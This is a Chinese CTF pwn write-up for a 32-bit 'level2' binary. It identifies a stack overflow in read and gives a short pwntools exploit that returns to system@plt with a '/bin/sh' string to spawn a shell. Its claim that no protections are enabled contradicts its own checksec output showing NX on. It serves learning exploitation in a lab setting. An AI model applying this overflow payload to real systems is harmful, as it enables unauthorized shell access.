


# 知识点

ret2libc


# 题目分析

1. 查看保护情况，32位程序，没开启任何保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA，发现执行了vulnerable函数，跟入分析。

   发现read存在栈溢出漏洞。

   

3. 继续分析，发现题目提供了libc中的system函数，并且提供了/bin/sh字符串。

   直接ret2libc，覆盖返回地址执行system("/bin/sh")即可。

   


# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./level2')
elf = ELF('./level2')

system = elf.plt['system']
binsh = 0x0804A024

payload = 'A' * 0x88 + 'dead' + p32(system) + p32(0) + p32(binsh)
io.sendafter('Input:', payload)

io.interactive()
```

